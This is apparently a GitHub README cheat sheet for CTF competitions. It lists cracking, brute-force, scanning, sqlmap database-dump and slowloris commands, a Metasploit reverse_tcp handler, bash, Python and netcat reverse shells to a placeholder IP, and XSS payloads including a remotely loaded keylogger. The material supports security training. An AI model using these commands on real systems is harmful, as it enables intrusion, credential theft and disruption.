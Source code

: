 # 🛡️ CTF Writeups

A collection of useful commands and notes for Capture The Flag (CTF) competitions.

---

## 📋 Table of Contents

1. [Basic Commands](#basic-commands)
2. [Advanced Commands](#advanced-commands)
3. [Nmap Usage](#nmap-usage)
4. [Random Points from TryHackMe (THM)](#random-points-from-tryhackme-thm)
5. [Additional Resources](#additional-resources)
6. [Conclusion](#conclusion)

---

## Basic Commands

- **zip2john**: Convert a ZIP file to a format that John the Ripper can crack.
    ```sh
    zip2john file.zip > file.zip.hash
    john file.zip.hash
    ```

- **gobuster**: Directory/file brute-forcing tool.
    ```sh
    gobuster dir -u TARGET -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```

- **find**: Search for files.
    ```sh
    find / -type f -regex '.*skat.txt$' 2> /dev/null
    find / -name findme.txt 2> test.txt
    ```

- **nmap**: Network scanner.
    ```sh
    nmap -T4 -A -p- TARGET -oN nmap.txt
    ```

- **hydra**: Password cracking tool.
    ```sh
    hydra -l mark -P /usr/share/wordlists/rockyou.txt IP_Address ssh
    hydra -l admin -x 4:4:MLVICDX -vV sshhydra.com ssh
    hydra -l admin -P /usr/share/john/password.lst -vV ftplogin.com ftp
    ```

---

## Advanced Commands

- **Nmap Scripts**: Use NSE scripts to identify vulnerabilities.
    ```sh
    nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p PORT -T4 IP_Address
    nmap --script http-slowloris --max-parallelism 400 IP_Address
    ```

- **SQLMap**: Automatic SQL injection and database takeover tool.
    ```sh
    sqlmap -u "http://target.com/vulnerable_param" --batch --dbs
    sqlmap -u "http://target.com/vulnerable_param" -D database_name --tables
    sqlmap -u "http://target.com/vulnerable_param" -D database_name -T table_name --columns
    sqlmap -u "http://target.com/vulnerable_param" -D database_name -T table_name -C column_name --dump
    ```

- **Metasploit**: Penetration testing framework.
    ```sh
    msfconsole
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST your_ip
    set LPORT your_port
    exploit
    ```

- **Burp Suite**: Web vulnerability scanner.
    - **Intruder**: Use Intruder to brute force login forms or find hidden parameters.
    - **Repeater**: Manually send and analyze HTTP requests.

- **Exploiting SMB**:
    ```sh
    smbclient -L //TARGET_IP -U username
    smbmap -H TARGET_IP
    ```

- **Reverse Shells**:
    - **Bash**:
        ```sh
        bash -i >& /dev/tcp/your_ip/your_port 0>&1
        ```
    - **Python**:
        ```python
        python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_ip",your_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
        ```
    - **Netcat**:
        ```sh
        nc -e /bin/sh your_ip your_port
        ```

---

## Nmap Usage

- **OS Detection**:
    ```sh
    nmap -O TARGET
    ```
- **Service Version Detection**:
    ```sh
    nmap -sV TARGET
    ```
- **Stealth Scan**:
    ```sh
    nmap -sS TARGET
    ```
- **Aggressive Scan**:
    ```sh
    nmap -A TARGET
    ```

---

## Random Points from TryHackMe (THM)

- **Popups**:
    ```html
    <script>alert("Hello World")</script>
    ```
    Creates a Hello World message popup on a user's browser.

- **Writing HTML**:
    ```javascript
    document.write("Your HTML code here");
    ```
    Override the website's HTML to add your own content.

- **XSS Keylogger**: Capture keystrokes of a user.
    ```html
    <script src="http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js"></script>
    ```

- **Port Scanning**:
    ```html
    <script src="http://www.xss-payloads.com/payloads/scripts/portscanapjs.js"></script>
    ```

---

## Additional Resources

- [GTFOBins](https://gtfobins.github.io/): Unix binaries that can be used to bypass local security restrictions.
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings): A list of useful payloads and bypasses for Web Application Security.
- [HackTricks](https://book.hacktricks.xyz/): A comprehensive guide for penetration testing and CTF challenges.

---

## Conclusion

This guide provides essential commands and tools to help you succeed in CTF competitions. Utilize the basic and advanced commands effectively, and refer to the additional resources for further learning.

Happy hacking! 🏴‍☠️
